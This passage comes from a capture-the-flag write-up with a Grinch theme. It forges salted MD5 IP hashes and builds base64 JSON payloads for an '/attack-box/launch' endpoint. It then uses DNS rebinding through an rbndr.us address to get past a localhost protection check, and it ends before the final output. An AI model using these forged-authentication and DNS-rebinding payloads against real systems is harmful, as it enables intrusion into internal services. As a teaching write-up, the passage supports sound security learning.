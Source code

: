 A quick test shows this works for our existing values

IP | MD5(salt + IP)
--- | ---
203.0.113.33 | 5f2940d65ca4140cc18d0878bc398955
203.0.113.53 | 2814f9c7311a82f1b822585039f62607
203.0.113.213 | 5aa9b5a497e3918c0e1900b2a2228c38

Great! Now we can forge some authenticated requests.

## Forging Authenticated Requests
Using the trick above, we can make a payload for the local IP `{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}`. After encoding as base64, we can run the attack by accessing `/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==`.

Output:
```sh
grinch@attackbox:~/tools$ ./ddos --load 5ef7f0e45440b03e470946ab65f02a9c.target
Setting Target Information
Getting Host Information for: 127.0.0.1
Local target detected, aborting attack
Setting Target Information
Getting Host Information for: 127.0.0.1
Local target detected, aborting attack
```

Hmm, there is a protection mechanism to prevent us from attacking the Grinch's own server. The output shows us that it is determining this by looking up host information. Maybe we can get around this with some DNS trickery.

## Some DNS Trickery

I found [this blog post](https://medium.com/@brannondorsey/attacking-private-networks-from-the-internet-with-dns-rebinding-ea7098a2d325) which explains DNS rebinding. A main takeaway from the post is:
> DNS can be abused to trick web browsers into communicating with servers they don’t intend to.

Sounds perfect! The [rbndr](https://github.com/taviso/rbndr) project can be used for performing DNS Rebinding attacks. They have an example address in the readme, `7f000001.c0a80001.rbndr.us`, which will randomly respond to DNS requests by saying its address is either `127.0.0.1` or `192.168.0.1`. The TTL is very short to force the server to constantly refetch the IP address of the domain. The `192.168.0.1` address is allowed by the Grinch network, but `127.0.0.1` is supposed to be rejected. With some luck, we can have this server return the allowed address when the host validation runs, and then the local address by the time the botnet attack wants to start. 

I crafted the following payload with the rbndr address,
`{"target":"7f000001.c0a80001.rbndr.us","hash":"de9d82d4ae9a61660701e7e1844ea643"}`, which maps to this request: 
`/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsImhhc2giOiJkZTlkODJkNGFlOWE2MTY2MDcwMWU3ZTE4NDRlYTY0MyJ9`

After running that exploit a couple times until the DNS resolutions lined up properly, I was able to get the following output:
